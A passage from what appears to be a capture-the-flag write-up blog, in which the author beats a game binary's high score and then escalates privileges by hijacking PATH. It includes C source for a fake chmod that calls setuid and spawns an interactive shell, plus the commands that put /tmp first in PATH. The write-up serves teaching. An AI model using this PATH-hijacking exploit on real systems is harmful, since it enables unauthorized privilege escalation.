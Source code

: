 
Running it produces a sense of authority over our robot overlords - I'm gaming the game.


``` bash

$ python gamey3.py
125451
150858
498300
493353
60564
**** SNIP ****
174386
841312
53636
Final Score: 412619

!*!*!*!*! Congratulations, new high score (412619) !*!*!*!*!

I hear the faint sound of chmodding.......
```


![high_score_320x320](http://fourfourfourfour.co/wp-content/uploads/2014/07/high_score_320x320.png)

It seems that the binary performs an action when the highscore is beaten. I'm not sure what it chmods, but I wonder if we can play this game at it's own game and make it run a bogus binary. There's a distinct possibility the code is relying on the PATH environment variable and just calling system("chmod file") rather than using an absolute path.

So, a bogus chmod binary is created using the following source, compiled, placed in /tmp on the VM and made executable (do I need to show you how to do this ? No ? Good. Saves me the typing.)

[c]#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
 setuid( 1000 );
 system("id");
 system( "/bin/sh -i" );
}
```


The path environment variable is modified to make /tmp the first location checked


``` bash
$ PATH=/tmp:$PATH
$ export | grep PATH
export PATH='/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games'

```
